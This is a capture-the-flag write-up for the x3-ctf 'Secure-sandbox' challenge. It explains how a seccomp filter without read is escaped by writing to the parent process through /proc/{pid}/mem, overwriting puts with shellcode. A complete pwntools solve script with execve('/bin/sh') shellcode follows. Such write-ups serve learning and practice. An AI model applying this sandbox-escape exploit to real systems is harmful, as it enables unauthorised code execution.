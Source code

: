 # x3-ctf Secure-sandbox

## Recon

in this challenge we get the opportunity to execute a shellcode of our choice in a child process with seccomp enabled

by running `seccomp-tools` we can see what we can use

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x00000001  if (A == write) goto 0012
 0006: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0012
 0007: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0012
 0008: 0x15 0x03 0x00 0x00000008  if (A == lseek) goto 0012
 0009: 0x15 0x02 0x00 0x00000014  if (A == writev) goto 0012
 0010: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0012
 0011: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

so we we can use:
- write
- open
- close
- lseek
- writev
- exit
- exit_group

but no read, we can't do open read write for flag
Also in the first 4 lines we can see the arch check and x32 abi check is there

## Exploitation

Forunately for us, on executing the chall file it gives us the PID for the parent process before forking.
This is a very meaningful leak since, using `/proc/{pid}/mem` we can change the memory of the parent process

it's possible to edit the parent's memory from child since they belong to same group and the chall file is probably being run as root.

So using `open` we first open `/proc/{pid}/mem`
i saw it in use in this [writeup](http://jgeralnik.github.io/writeups/2020/09/05/writeonly/)
Then we can use `lseek` to get out cursor to the area where `puts` function is, since after executing the shellcode we execute the puts function.
After that we can use `write` to wrtite our shellcode where `puts` is

and finally we'll get the shell

the [solve script](solve.py)

```python
from pwn import *

context.arch = 'amd64'
r = process(["./chall"])
#r = remote("3a1c5799-2da8-4f8e-8562-890c0ed98533.x3c.tf",31337,ssl=True)
r.recvuntil(b':')
pid = int(r.recvline().strip(),10)

pl = asm(f'''
        xor edx,edx
        mov esi,0x1
        lea rdi,[rip+stuff]
        mov rax,0x2
        syscall
        mov rdi,rax
        mov rsi,0x421a80
        xor rdx,rdx
        mov rax,0x8
        syscall
        mov rdi,0x3
        lea rsi,[rip+shellcode]
        mov rdx,0x100
        mov rax,0x1
        syscall
        ret
        stuff:
                .string "/proc/{pid}/mem"
        shellcode:
                .byte 0x48, 0x31, 0xf6, 0x56, 0x48, 0xbf, 0x2f, 0x62
                .byte 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54, 0x5f,0x6a,0x3b,0x58,0x99,0x0f,0x05

'''
)
print(pl)
context.terminal=['st']

#gdb.attach(r,'''b *setup_sandbox+0x14d''')

r.send(pl)
r.interactive()
```

